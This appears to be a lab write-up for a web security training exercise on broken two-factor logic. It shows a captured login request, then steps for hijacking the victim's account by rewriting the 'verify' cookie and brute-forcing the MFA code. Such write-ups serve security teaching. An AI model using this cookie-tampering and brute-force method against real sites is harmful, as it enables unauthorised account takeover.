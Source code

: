 # Lab: 2FA broken logic

>This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

>Your credentials: wiener:peter

>Victim's username: carlos

>You also have access to the email server to receive your 2FA verification code.

### Looking at the MFA request
POST /login2 HTTP/1.1

Host: ac0e1fe31fe22f0bc01218a6008300a7.web-security-academy.net

Cookie: verify=wiener; session=loFTGqIgLnF0oIAXx2O0p7DQZvdboT0D
Content-Length: 13

Cache-Control: max-age=0

Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: "macOS"

Upgrade-Insecure-Requests: 1

Origin: https://ac0e1fe31fe22f0bc01218a6008300a7.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: https://ac0e1fe31fe22f0bc01218a6008300a7.web-security-academy.net/login2

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

mfa-code=0771

### Interesting finds
- `Cookie: verify=wiener`

### Solution
While logging into your account, capture the `/login2` GET request and set `Cookie: verify=carlos`

This will set an mfa code for carlos, now capture the `/login2` POST request and brute force the mfa code

A valid mfa code will have a 302 status code... Now send that mfa code in the POST request to `/login2` and you will access the account of `carlos`!
